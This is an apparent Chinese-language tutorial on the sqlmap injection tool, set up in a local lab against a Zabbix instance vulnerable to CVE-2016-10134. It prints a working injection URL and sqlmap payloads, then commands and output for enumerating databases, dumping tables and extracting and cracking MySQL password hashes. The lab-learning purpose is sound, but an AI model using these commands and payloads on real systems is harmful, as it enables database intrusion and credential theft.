

# sqlmap初识
## 一、sqlmap探索
### 1、什么是sqlmap
sqlmap 是一个开源渗透测试工具，它可以自动检测和利用 SQL 注入漏洞并接管数据库服务器。它具有强大的检测引擎，同时有众多功能，包括数据库指纹识别、从数据库中获取数据、访问底层文件系统以及在操作系统上带内连接执行命令。  
简单来说，是一个可以自动对注入点进行sql注入的尝试工具  
### 2、sqlmap简介
```
官网：http://sqlmap.org/
github：https://github.com/sqlmapproject/sqlmap/zipball/master
```  
**sqlmap支持的数据库：**  
MySQL, Oracle,PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird,Sybase和SAP MaxDB等  
**注入方式：**  
l  基于布尔的盲注，即可以根据返回页面判断条件真假的注入；  
l  基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断；  
l  基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中；  
l  联合查询注入，可以使用union的情况下的注入；  
l  堆查询注入，可以同时执行多条语句的执行时的注入。  
**sqlmap搭建：**  
（1） python环境（本人使用anconda)  
（2） 可通过官网下载，按系统下载后可使用  
（3） 官网在国内不易访问，可直接对github或者gitee上的项目进行clone，通过python进行使用
``` 
附gitee地址：git clone https://gitee.com/vue-quasar/sqlmap.git
```  
可通过对应路径直接使用，或者对环境变量进行配置后可通过sqlmap命令直接使用
```
mac中配置shell：
alias sqlmap='python /Users/xxxx/yq_code/sqlmap/sqlmap.py'
```
最后可直接通过sqlmap使用（如下图）：

至此sqlmap已经进入使用前的基础状态
### 3、sqlmap命令参数
**主要令集**
```
u 指定目标URL (可以是http协议也可以是https协议)
-d 连接数据库
--dbs 列出所有的数据库
--current-db 列出当前数据库
--tables 列出当前的表
--columns 列出当前的列
-D 选择使用哪个数据库
-T 选择使用哪个表
-C 选择使用哪个列
--dump 获取字段中的数据
--batch 自动选择yes
--smart 启发式快速判断，节约浪费时间
--forms 尝试使用post注入
-r 加载文件中的HTTP请求（本地保存的请求包txt文件）
-l 加载文件中的HTTP请求（本地保存的请求包日志文件）
-g 自动获取Google搜索的前一百个结果，对有GET参数的URL测试
-o 开启所有默认性能优化
--tamper 调用脚本进行注入
-v 指定sqlmap的回显等级
--delay 设置多久访问一次
--os-shell 获取主机shell，一般不太好用，因为没权限
-m 批量操作
-c 指定配置文件，会按照该配置文件执行动作
-data data指定的数据会当做post数据提交
-timeout 设定超时时间
-level 设置注入探测等级
--risk 风险等级
--identify-waf 检测防火墙类型
--param-del="分割符" 设置参数的分割符
--skip-urlencode 不进行url编码
--keep-alive 设置持久连接，加快探测速度
--null-connection 检索没有body响应的内容，多用于盲注
--thread 最大为10 设置多线程

其他参数可通过-hh进行帮助查询
```

## 二、sqlmap初试
### 测试目标
`http://127.0.0.1:8080/zabbix.php?action=dashboard.view`  
  
以之前搭建的CVE-2016-10134漏洞为测试目标，通过对已知的注入点进行sqlmap的尝试  
#### 当前注入点  
以下注入通过jsrpc.php触发，且无需登录
    在攻击机访问的zabbix的地址后面加上如下url：  
  http://192.168.1.13:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
    
#### 测试语句  
```
sqlmap -u "http://localhost:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=1234" -p "profileIdx2"

解析：-u为指定url -p为指定注入的参数

```
#### 成功后如图：
  
对于成功后返回的解析：  
```
sqlmap -u "http://localhost:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=1234" -p "profileIdx2"
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.12.23#dev}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:11:37 /2021-12-19/
//展示出使用的数据库
[17:11:37] [INFO] resuming back-end DBMS 'mysql'
[17:11:37] [INFO] testing connection to the target URL
//确认是否带上cookie
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=1tvlf0ugn2u...rns8v1o7v5;zbx_sessionid=20295a21faf...d97d0bae6d'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
//展示出注入点及payload
---
Parameter: profileIdx2 (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=(SELECT (CASE WHEN (5765=5765) THEN 1234 ELSE (SELECT 9224 UNION SELECT 9622) END))

    Type: inline query
    Title: Generic inline queries
    Payload: type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=(SELECT CONCAT(CONCAT(0x716a7a7071,(CASE WHEN (2400=2400) THEN 0x31 ELSE 0x30 END)),0x7162766a71))

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=1234 AND GTID_SUBSET(CONCAT(0x716a7a7071,(SELECT (ELT(6078=6078,1))),0x7162766a71),6078)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=1234 AND (SELECT 6924 FROM (SELECT(SLEEP(5)))PrRx)
---
[17:11:39] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6

[*] ending @ 17:11:39 /2021-12-19/
```
### 参数尝试
前面已经确认在profileIdx2位置出现了注入漏洞，之后进行对注入点的各参数测试
下面代码用“URL-----------”代表上面测试的url  
--cookie 对目标url添加cookie
```
sqlmap -u  "URL-----------"   --cookie="抓取的cookie"  #探测该url是否存在漏洞
```
--data 对于是post提交数据的URL，我们需要指定其data参数
```
sqlmap -u "URL-----------" --data="uname=admin&passwd=admin&submit=Submit
```
-r 加载本地的请求文件“*.txt"类型的文件，这样可以省略cookie/data之类的其他参数，对于目标网站对请求要求过多的情况相对方便
```
如：
  POST /zabbix.php?action=widget.web.view&sid=27290775aa8c0e65&upd_counter=0&pmasterid=dashboard HTTP/1.1
Host: 127.0.0.1:8080
Connection: keep-alive
Content-Length: 23
sec-ch-ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Accept: text/javascript, text/html, application/xml, text/xml, */*
X-Prototype-Version: 1.6.1
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/zabbix.php?action=dashboard.view
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9lltmobmthvk41lh07i8olkjh6; zbx_sessionid=66b8472446fb0bc127290775aa8c0e65

```
 使用时
 ```
 sqlmap -r post.txt        #探测post.txt文件中的http数据包是否存在sql注入漏洞
```

自动获取数据的相关参数
--users 获取数据库用户
```
sqlmap -u "URL-----------" -p "profileIdx2" --users
```
获取到的结果
```
database management system users [4]:
[*] 'mysql.session'@'localhost'
[*] 'mysql.sys'@'localhost'
[*] 'root'@'%'
[*] 'root'@'localhost'
```
--passwords 获取数据库密码
```
sqlmap -u "URL-----------" -p "profileIdx2" --passwords
```
获取到的结果
```
[22:00:32] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[22:00:32] [INFO] fetching database users password hashes
[22:00:33] [WARNING] reflective value(s) found and filtering out
[22:00:33] [INFO] retrieved: 'root'
[22:00:33] [INFO] retrieved: '*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B'
[22:00:33] [INFO] retrieved: 'mysql.session'
[22:00:33] [INFO] retrieved: '*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'
[22:00:33] [INFO] retrieved: 'mysql.sys'
[22:00:34] [INFO] retrieved: '*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'
[22:00:34] [INFO] retrieved: 'root'
[22:00:34] [INFO] retrieved: '*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B'

破解后的数据：
[22:01:47] [INFO] starting dictionary-based cracking (mysql_passwd)
[22:01:47] [INFO] starting 8 processes
[22:01:59] [INFO] cracked password 'root' for user 'root'
[22:02:01] [INFO] cracked password 'root' for user 'root'
database management system users password hashes:
[*] mysql.session [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] mysql.sys [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] root [1]:
    password hash: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
    clear-text password: root

```
—-is-dba 判断当前用户是否有管理权限
```
sqlmap -u "URL-----------" -p "profileIdx2" -—is-dba
```
获取到的结果
```
---
[22:03:41] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[22:03:41] [INFO] testing if current user is DBA
[22:03:41] [INFO] fetching current user
[22:03:41] [WARNING] reflective value(s) found and filtering out
[22:03:41] [INFO] retrieved: 'root@%'
current user is DBA: True
```
—current-user 查看数据库当前用户
```
sqlmap -u "URL-----------" -p "profileIdx2" -—current-user
```
获取到的结果
```
---
[22:06:11] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[22:06:11] [INFO] fetching current user
[22:06:11] [INFO] resumed: 'root@%'
current user: 'root@%'
```
—roles 列出数据库管理员角色
```
sqlmap -u "URL-----------" -p "profileIdx2" —roles
```
获取到的结果
```database management system users roles:
[*] 'mysql.session'@'localhost' (administrator) [1]:
    权限
[*] 'mysql.sys'@'localhost' [1]:
    权限
[*] 'root'@'%' (administrator) [28]:
    权限
[*] 'root'@'localhost' (administrator) [28]:
    权限
```
—dbs 查看所有的数据库
```
sqlmap -u "URL-----------" -p "profileIdx2" —dbs
```
获取到的结果
```
  available databases [5]:
  [*] information_schema
  [*] mysql
  [*] performance_schema
  [*] sys
  [*] zabbix
```
—-current-db 查看当前数据库
```
sqlmap -u "URL-----------" -p "profileIdx2" —-current-db
```
获取到的结果
```
---
[22:10:33] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[22:10:33] [INFO] fetching current database
[22:10:33] [WARNING] reflective value(s) found and filtering out
[22:10:33] [INFO] retrieved: 'zabbix'
current database: 'zabbix'
```
-D XXX --tables 透传指定数据库中的所有的表  
```
sqlmap -u "URL-----------" -p "profileIdx2" -D zabbix --tables
```
获取到的结果
```---
[22:12:28] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[22:12:28] [INFO] fetching tables for database: 'zabbix'
[22:12:28] [WARNING] reflective value(s) found and filtering out
[22:12:29] [INFO] retrieved: 'acknowledges'
[22:12:29] [INFO] retrieved: 'actions'
[22:12:29] [INFO] retrieved: 'alerts'
[22:12:29] [INFO] retrieved: 'application_discovery'
[22:12:29] [INFO] retrieved: 'application_prototype'
[22:12:29] [INFO] retrieved: 'application_template'
[22:12:30] [INFO] retrieved: 'applications'
[22:12:30] [INFO] retrieved: 'auditlog'
余下省略
```
-D XXX -T XXX --columns 透传指定数据库中的指定表的所有列  
```
sqlmap -u "URL-----------" -p "profileIdx2" -D zabbix -T alerts --columns
```
获取到的结果
```Database: zabbix
Table: alerts
[14 columns]
+-------------+---------------------+
| Column      | Type                |
+-------------+---------------------+
| actionid    | bigint(20) unsigned |
| alertid     | bigint(20) unsigned |
| alerttype   | int(11)             |
| clock       | int(11)             |
| error       | varchar(128)        |
| esc_step    | int(11)             |
| eventid     | bigint(20) unsigned |
| mediatypeid | bigint(20) unsigned |
| message     | text                |
| retries     | int(11)             |
| sendto      | varchar(100)        |
| status      | int(11)             |
| subject     | varchar(255)        |
| userid      | bigint(20) unsigned |
+-------------+---------------------+
```
-D XXX -T XXX -C XXX --dump 透传指定数据库中的指定表的指定列的所有数据  
```
sqlmap -u "URL-----------" -p "profileIdx2" -D zabbix -T alerts -C actionid --dump
```
获取到的结果
```
很遗憾，没有数据，但执行成功并返回了空
Database: zabbix
Table: alerts
[0 entries]
+----------+
| actionid |
+----------+
+----------+
```
在以上几条基础上通过 --dump-all参数进行所有数据的返回，具体执行省略，语句如下
```
sqlmap -u "URL-----------" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "URL-----------" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "URL-----------" --dump-all  #爆出该数据库中的所有数据

```